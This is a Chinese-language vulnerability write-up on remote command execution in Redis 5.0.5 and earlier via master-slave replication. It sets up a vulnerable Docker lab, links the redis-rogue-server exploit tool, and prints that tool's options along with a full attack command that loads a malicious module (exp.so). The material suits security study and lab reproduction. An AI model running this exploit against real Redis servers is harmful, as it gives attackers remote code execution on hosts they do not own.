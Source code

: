 ```yaml
---
Title: Redis 小于5.0.5 主从复制远程命令执行漏洞
---
```


# Redis 小于5.0.5 主从复制远程命令执行漏洞

## 漏洞描述

在2019年7月7日结束的WCTF2019 Final上，LC/BC的成员Pavel Toporkov在分享会上介绍了一种关于redis新版本的RCE利用方式，比起以前的利用方式来说，这种利用方式更为通用，危害也更大

[Pavel Toporkov的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

## 影响版本

<a-checkbox checked>Redis <= 5.0.5</a-checkbox></br>

## 环境搭建

```shell
docker pull damonevking/redis5.0 
docker run -p 6379:6379 -d damonevking/redis5.0 redis-server
```

nmap扫描一下6379端口开放即为搭建成功

```shell
root@kali:~/桌面# docker pull damonevking/redis5.0 
Using default tag: latest

latest: Pulling from damonevking/redis5.0
fc7181108d40: Pull complete 
3e0ac67cad82: Pull complete 
6ee495cb7235: Pull complete 
9f7206d08b9d: Pull complete 
a8354ef8cccb: Pull complete 
53afb10d81c2: Pull complete 
Digest: sha256:adcf62f378efe1187d2f72c6f0ecdf86ab2173a9e1c3c9f4fe4bb89060f5362f
Status: Downloaded newer image for damonevking/redis5.0:latest
docker.io/damonevking/redis5.0:latest
root@kali:~/桌面# docker run -p 6379:6379 -d damonevking/redis5.0 redis-server
1275aa9c6c8f8ad0b6c8e58e609be6681acedec301b5593f7e8b0bd65f7fad12
root@kali:~/桌面# nmap 127.0.0.1 -p 6379
Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-08 21:47 CST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000099s latency).

PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
```

## 漏洞复现

关于漏洞原理请查看[Pavel Toporkov的分享](https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf)

漏洞利用脚本: [n0b0dyCN/redis-rogue-server](https://github.com/n0b0dyCN/redis-rogue-server)

```shell
➜ ./redis-rogue-server.py -h
______         _ _      ______                         _____                          
| ___ \       | (_)     | ___ \                       /  ___|                         
| |_/ /___  __| |_ ___  | |_/ /___   __ _ _   _  ___  \ `--.  ___ _ ____   _____ _ __ 
|    // _ \/ _` | / __| |    // _ \ / _` | | | |/ _ \  `--. \/ _ \ '__\ \ / / _ \ '__|
| |\ \  __/ (_| | \__ \ | |\ \ (_) | (_| | |_| |  __/ /\__/ /  __/ |   \ V /  __/ |   
\_| \_\___|\__,_|_|___/ \_| \_\___/ \__, |\__,_|\___| \____/ \___|_|    \_/ \___|_|   
                                     __/ |                                            
                                    |___/                                             
@copyright n0b0dy @ r3kapig

Usage: redis-rogue-server.py [options]

Options:
  -h, --help           show this help message and exit
  --rhost=REMOTE_HOST  target host
  --rport=REMOTE_PORT  target redis port, default 6379
  --lhost=LOCAL_HOST   rogue server ip
  --lport=LOCAL_PORT   rogue server listen port, default 21000
  --exp=EXP_FILE       Redis Module to load, default exp.so
  -v, --verbose        Show full data stream
Example
```

![image-20220309231916165](/assets/PeiQi-Wiki/img/image-20220309231916165.png)

```shell
python3 redis-rogue-server.py --rhost 192.168.51.146 --lhost 192.168.51.146 --exp=exp.so
```

![image-20220309231926604](/assets/PeiQi-Wiki/img/image-20220309231926604.png)
